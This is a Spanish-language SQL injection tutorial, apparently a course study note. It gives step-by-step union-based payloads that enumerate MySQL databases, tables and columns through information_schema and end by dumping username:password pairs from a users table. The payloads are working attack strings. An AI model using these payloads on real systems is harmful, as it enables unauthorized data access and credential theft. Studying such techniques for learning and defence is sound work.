 -- -
Primero empezamos viendo la cantidad de columnas que existen con el uso de order by.
```sql
id=3' order by 100-- -
```

Una vez vimos la cantidad de columnas que existen empezamos con el uso de union select para empezar a ver el contenido almacenado.
```sql
id=3' union select 1
```
La cláusula UNION en SQL se utiliza para combinar los resultados de dos o más consultas SELECT.
En este caso, se intenta combinar los resultados de la consulta original con los resultados de una nueva consulta que el atacante introduce.

Esto nos tendria que mostrar el dato que esta almacenado en la primer columna de la tabla.
Pero si en vez de poner un identificador valido, ponemos unos no valido nos va a empezar a reflejar lo que ponemos, y ahi es cuando podemos  empezar a ejecutar de todo.  
```sql
id=32' union select database();
```

Con este comando le pedimos que nos liste todas las bases de datos existentes.
```sql
id=32' union select schema_name from information_schema.schemata-- -
```
- **schema_name** --->   columna en la tabla schemata dentro del esquema information_schema. Esta columna contiene los nombres de todas las bases de datos (schemas) en el servidor.
- **information_schema** ---> Esquema especial en MySQL que contiene vistas de metadatos 
- **schemata** ---> Es una tabla dentro del esquema information_schema


El problema es que a veces los resultados terminan siendo limitados. Para evitar eso es mejor jugar con la funcion group_concat() o con limits.
**group_concat** ---> Función que concatena los nombres de todas las tablas en una única cadena, separada por comas.
```sql
id=32' union select group_concat(schema_name) from information_schema.schemata-- -
id=32' union select schema_name from information_schema.schemata limit 0,1-- -
```

Luego, para enumerar las tablas de cierta base de datos podriamos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(table_name) from information_schema.tables where table_schema='Hack4u'-- -
```

Luego, tambien para ver las columnas tendriamos q hacer algo muy similiar a lo anterior.
```sql
id=32' union select group_concat(column_name) from information_schema.columns where table_schema='Hack4u' and table_name='users'-- -
```

Para listar los usuarios podemos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(username) from users-- -
```

Para listar los usuarios podemos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(username,':',password) from users-- -
```

## Aclaraciones
------- 
- Con el order by tenemos que poner siempre la cantidad de columnas con un solo numero. Por ejemplo si la consulta sql es **"select username,password from users where id = '$id'")**, entonces la inyeccion con el order by seria: **id=1' order by 2-- -** ya que la consulta en si le esta pegando a 2 columnas dentro de la tabla.

- Luego, con el union select tendriamos que darle la cantidad de columas separadas por comas junto con un id valido, por ejemplo: **id=1' union select 1,2-- -** . Despues tendriamos que darle un valor erroneo al id para ver cual de los 2 numero separados por la coma nos muestra la pagina, ejemplo **id=-1' union select 1,2-- -**. Una vez vemos cual es el que nos muestra ahi mismo es donde tenemos que empezar a inyectar los comandos. **id=-1' union select database(),2-- -.